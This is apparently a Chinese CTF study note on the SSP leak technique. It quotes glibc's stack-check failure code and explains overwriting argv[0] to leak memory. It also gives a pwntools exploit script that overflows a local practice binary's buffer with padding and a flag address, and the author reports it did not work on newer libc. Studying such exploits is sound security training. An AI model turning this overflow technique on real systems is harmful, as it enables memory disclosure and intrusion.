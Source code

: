 

### SSP(Stack Smashing Protection)攻击

**没有成功实现，在libc 2.3.1版本，所利用的函数已被修改**

参考文献：

[Jarvis OJ --Smashes （SSP leak攻击）]([Jarvis OJ --Smashes （SSP leak攻击）_Kni9hT's Blog-CSDN博客](https://blog.csdn.net/weixin_43092232/article/details/102790343))

主要思想，是利用了以下函数：

```c
__stack_chk_fail :
void 
__attribute__ ((noreturn)) 
__stack_chk_fail (void) {   
    __fortify_fail ("stack smashing detected"); 
}

fortify_fail:
void 
__attribute__ ((noreturn)) 
__fortify_fail (msg)
   const char *msg; {
      /* The loop is added only to keep gcc happy. */
         while (1)
              __libc_message (2, "*** %s ***: %s terminated\n", msg, __libc_argv[0] ?: "<unknown>") 
} 
libc_hidden_def (__fortify_fail)

```

argv[0]是指向第一个启动参数字符串的指针，只要我们能够输入足够长的字符串覆盖掉argv[0]，我们就能让canary保护输出我们想要地址上的值。

**正常情况下，重复输入目标地址，覆盖到arg[0]，显示相应地址的值，但后期的libc对该函数做了改进，不再使用arg[0]信息了**

具体，进一步，见参考文献

```

from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')#arch也可以是i386~看文件
local = 1
elf = ELF('./bin2')
#标志位,0和１
if local:
    p = process('./bin2')
    libc = elf.libc

else:
    p = remote('',)
    libc = ELF('./')
flag = 0x400d20
payload = ""
#payload += p64(flag)*1000
payload += 0x218*b'a' + p64(flag)
p.recvuntil("Hello!\nWhat's your name?")
p.sendline(payload)
p.recv()
p.sendline(payload)
p.interactive()
```



### 